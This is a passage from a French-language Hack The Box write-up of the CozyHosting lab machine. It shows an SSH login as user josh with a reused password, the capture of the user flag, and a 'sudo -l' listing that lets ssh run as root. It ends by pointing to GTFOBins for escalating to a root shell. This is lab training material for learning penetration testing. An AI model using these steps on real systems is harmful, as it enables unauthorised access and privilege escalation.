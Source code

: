 ### SSH josh : user flag
Un peu plus tôt, avait pu accéder au fichier /etc/passwd et on avait alors trouver un nom d'utilisateur **josh**. De plus, on pouvait aussi le trouver en se deplaçant dans **/home**. Or, cet utilisateur à le rôle administrateur donc le mot de passe devrait fonctionné en ssh:
```bash
┌──(kali㉿kali)-[~/Hacking/HackTheBox/Machines/CozyHosting]
└─$ ssh josh@10.10.11.230 
josh@10.10.11.230's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Dec 30 01:01:53 AM UTC 2023

  System load:           0.0068359375
  Usage of /:            59.8% of 5.42GB
  Memory usage:          48%
  Swap usage:            0%
  Processes:             262
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.230
  IPv6 address for eth0: dead:beef::250:56ff:feb9:2531

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Dec 29 19:20:45 2023 from 10.10.14.94
josh@cozyhosting:~$ cat user.txt 
db25.....2400
```

## Privilege Escalation

### josh : SSH as root
On observe que josh a le droit d'executer la commande **/usr/bin/ssh** suivi de n'importe quel paramètre en mode **root**.
```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```
En allant sur ce site internet, on peut trouver comment générer un shell interactif en partant d'une autre commande. Par exemple ici, pour la commande ssh :
https://gtfobins.github.io/gtfobins/ssh/
